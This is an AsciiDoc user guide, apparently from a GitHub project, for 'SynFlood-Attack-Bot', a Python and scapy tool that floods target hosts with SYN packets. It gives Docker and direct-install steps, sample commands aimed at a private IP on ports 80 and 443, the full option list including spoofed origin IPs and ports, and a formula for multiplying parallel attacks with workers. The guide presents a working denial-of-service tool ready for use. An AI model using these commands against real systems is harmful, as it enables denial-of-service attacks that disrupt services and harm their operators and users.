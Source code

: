 :nofooter:



= User Guide for SynFlood-Attack-Bot
:revnumber: 1.0 
:revdate: 2020-06-05 09:38:08 +0800
:revremark: {doctitle}: The handy manual 


This user guide explains how to use to use the SynFlood-Attack-Bot in detail.

'''

== Setting up

This section explains how to set up the bot with or without `docker`.

=== Using Docker

To use the docker container to run the bot, you will need to install `docker`. On Ubuntu, you can install `docker` with this following command:

[source, console]
----
sudo apt-get update
sudo apt-get install docker-ce docker-ce-cli containerd.io
sudo docker run hello-world
----

The detailed steps can be found in this https://docs.docker.com/install/linux/docker-ce/ubuntu/[link].
For other Linux distros, visit https://docs.docker.com/engine/install/[here]. (It is not recommended to use Windows for this)

You can then build the image using the provided script like this:
[source, console]
----
./build.sh
----

Finally you can run the bot with `docker run`, here's an example:
[source, console]
----
docker run synflood-attack-bot:latest -t 10.10.0.189 -p 80 443
----

=== Running directly

If you want to run it directly, you will need to install `python3` and `scapy`.

First, install `python3` using the appropriate method for your OS. Then simply install `scapy` like this:
[source, console]
----
pip3 install scapy
----

Finally, after navigating to the correct folder (with the `synflood-attack.py` file) you can run the bot with `python3`, here's an example:
[source, console]
----
python3 synflood-attack.py -t 10.10.0.189 -p 80 443
----

== Parameter Guide

This section details the parameters passed through the program arguments

=== Inline help

You can display help right in the console, you should see something like this:

[source, console]
----
root@endpoint:~/OctoBot/Octo-Bot/synflood-attack-bot$ python3 synflood-attack.py --help
usage: synflood-attack.py [-h] [--interactive] [-o ORIGIN [ORIGIN ...]]
                          [-O ORIGIN_PORT [ORIGIN_PORT ...]] -t TARGET
                          [TARGET ...] -p TARGET_PORT [TARGET_PORT ...]
                          [-i INTERFACE] [-d DURATION] [-g GAP] [-w WORKERS]

optional arguments:
  -h, --help            show this help message and exit
  --interactive         use scapy interactive console
  -o ORIGIN [ORIGIN ...], --origin ORIGIN [ORIGIN ...]
                        (optional) specify source (origin) ip
  -O ORIGIN_PORT [ORIGIN_PORT ...], --origin-port ORIGIN_PORT [ORIGIN_PORT ...]
                        (optional) specify source (origin) port
  -t TARGET [TARGET ...], --target TARGET [TARGET ...]
                        specify target ip
  -p TARGET_PORT [TARGET_PORT ...], --target-port TARGET_PORT [TARGET_PORT ...]
                        specify target port
  -i INTERFACE, --interface INTERFACE
                        (optional) specify interface
  -d DURATION, --duration DURATION
                        (optional) continuously generate traffic for a set
                        duration of time
  -g GAP, --gap GAP     (optional) gap (delay) between packets
  -w WORKERS, --workers WORKERS
                        (optional) number of workers to run in parallel per
                        ip-port combination pair
----

=== Jobs Scheduling

The bot schedules an attack for every ip address and port combination pair given, meaning that every origin ip address and port combination will be paired with with every target ip address and port combination, then duplicated by the amount of workers indicated.

The formula works like this:
[source]
----
total attacks scheduled = ORIGIN x ORIGIN_PORT x TARGET x TARGET_PORT x WORKERS
----

A command like this:

[source, console]
----
python3 synflood-attack.py -o 10.10.0.69 -O 22 533 633 -t 10.10.0.189 -p 80 443 -w 10
----

will yield `1 x 3 x 1 x 2 x 10 = 60` attacks.

Take note of the number to better understand the output and prevent overloading your machine!

'''
Last revised: {revdate}
